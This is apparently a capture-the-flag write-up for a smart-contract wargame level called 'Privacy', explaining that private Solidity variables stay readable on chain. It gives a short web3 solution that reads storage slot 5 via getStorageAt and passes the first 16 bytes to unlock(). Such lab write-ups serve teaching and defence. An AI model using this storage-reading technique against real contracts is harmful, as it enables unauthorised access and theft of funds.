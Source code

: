Level 12: Privacy

Objective:

Unlock the contract by getting access to a private password.

Vulnerability:

Storage layout .

Explanation:

Even private variables are stored publicly on the blockchain and can be accessed with getStorageAt.

Solution:

let slot5 = await web3.eth.getStorageAt(contract.address, 5)
let key = slot5.slice(0, 34) // First 16 bytes of slot
await contract.unlock(key)

Key Takeaways:

Private variables are only compiler-enforced, not blockchain-hidden.
Use tools like getStorageAt to analyze raw storage.
